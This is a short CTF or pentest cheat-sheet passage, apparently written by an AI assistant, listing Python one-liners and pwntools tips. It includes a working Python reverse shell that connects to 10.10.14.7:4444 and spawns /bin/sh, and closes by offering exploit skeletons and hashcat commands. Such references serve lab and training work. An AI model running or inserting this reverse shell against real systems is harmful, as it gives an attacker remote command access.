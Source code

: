 
## 🔎 Useful One-Liners & Patterns

```python
# quick HTTP server
python3 -m http.server 8000

# small reverse shell via Python
import socket,os,pty
s=socket.socket();s.connect(('10.10.14.7',4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn('/bin/sh')

# test hash quickly
import hashlib
print(hashlib.md5(b'flag').hexdigest())
```

---

## ✅ Tips & best practices

* Use `pwntools` for process/remote interaction — it's concise and battle-tested.
* Keep small helpers (pack/unpack, recvuntil) in a local module for reuse.
* For hashes, always be explicit about encoding (`.encode()` / `b''`) to avoid subtle bugs.
* Use virtualenvs and pin dependencies (pwntools, scapy, websockets, bcrypt, argon2-cffi).

---

*Want this saved into your repo README, or should I add exploit skeletons (ret2libc, heap, format string) and example hashcat commands for each hash type?*
